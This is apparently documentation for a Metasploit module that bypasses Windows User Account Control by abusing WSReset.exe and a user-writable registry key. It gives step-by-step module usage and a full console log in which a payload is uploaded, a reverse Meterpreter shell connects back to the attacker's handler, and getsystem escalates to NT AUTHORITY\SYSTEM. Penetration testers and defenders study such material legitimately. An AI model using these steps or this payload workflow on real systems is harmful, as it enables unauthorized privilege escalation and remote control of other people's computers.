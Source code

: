 ## Introduction

This module exploits a flaw in the WSReset.exe Windows Store Reset Tool. The tool
is run with the "autoElevate" property set to true, and it will automatically
launch a file from a low-privilege registry location with elevated privileges.
To bypass, simply place the binary on disk, write its location in the
correct registry key, and run WSReset.exe.  The binary will be run with elevated
privileges. 

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_windows_store_reg`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenarios

### Windows 10.0.17134.885 x64

```
msf5 exploit(windows/local/bypassuac_windows_store_reg) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] exploit_file = C:\Windows\System32\WSReset.exe
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Payload
[*] reg_command = C:\Windows\System32\cmd.exe /c start C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Registry Changes
[*] Registry Changes Complete
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\WSReset.exe
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe!
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 4 opened (192.168.135.168:4444 -> 192.168.132.125:49680) at 2019-09-04 17:01:46 -0500
[*] Removing Registry Changes
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-3DKRD1E
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-3DKRD1E\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
